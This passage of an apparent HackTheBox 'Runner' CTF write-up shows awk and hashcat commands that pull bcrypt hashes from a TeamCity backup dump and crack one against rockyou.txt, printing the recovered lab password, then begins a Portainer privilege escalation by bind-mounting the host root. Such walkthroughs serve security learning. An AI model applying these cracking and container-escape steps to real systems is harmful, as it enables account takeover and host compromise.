 Extract the hashes to **hashcat** format

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner]
└─$ cat loot/TeamCity_Backup_20240426_042215/database_dump/users | tail -n +2 | awk -F', ' '{print $2":"$3}' > teamcity_users.hash
```

Crack the hash

```powershell
hashcat.exe H:\VM-Share\Kali\teamcity_users.hash H:\VM-Share\Kali\rockyou.txt --user -m 3200 -w 3
```

Only `matthew`'s password was cracked

```bash
PS C:\Users\X> hashcat.exe H:\VM-Share\Kali\teamcity_users.hash H:\VM-Share\Kali\rockyou.txt --user -m 3200 -w 3 --show
matthew:$2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em:piper123
```

### Portainer - Privilege escalation

> **What is Portainer?**
> Portainer is a powerful, GUI-based Container-as-a-Service solution that helps organizations manage and deploy cloud-native applications easily and securely.
{: .prompt-info }

> http://portainer-administration.runner.htb/#!/home

Logged in successful with `matthew`:`piper123`

![](/assets/obsidian/ca35532f53ab773985462de9281d62ec.png)

Very similar to privilege escalation with **docker** by bind mounting root folder from host, just doing through web UI instead of CLI this time

The process to specify `mountpoint` in **portainer** requires more work though
